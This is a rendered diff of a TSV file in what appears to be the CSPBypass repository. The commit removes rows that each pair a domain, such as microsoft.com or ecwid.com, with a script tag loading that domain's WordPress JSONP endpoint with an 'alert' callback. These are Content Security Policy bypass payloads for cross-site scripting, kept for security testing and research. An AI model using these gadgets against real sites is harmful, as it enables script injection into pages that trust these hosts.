

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
-row 119: ecwid.com | <script src="https://ecwid.com/wp-json?_jsonp=alert"></script>
-row 126: freewheel.tv | <script src="https://freewheel.tv/wp-json?_jsonp=alert"></script>
-row 149: indexexchange.com | <script src="https://indexexchange.com/wp-json?_jsonp=alert"></script>
-row 179: microsoft.com | <script src="https://microsoft.com/en-us/research/wp-json?_jsonp=alert"></script>
-row 195: paytr.com | <script src="https://paytr.com/wp-json?_jsonp=alert"></script>
```
Also changed, not shown: 11 removed rows elsewhere in this file.
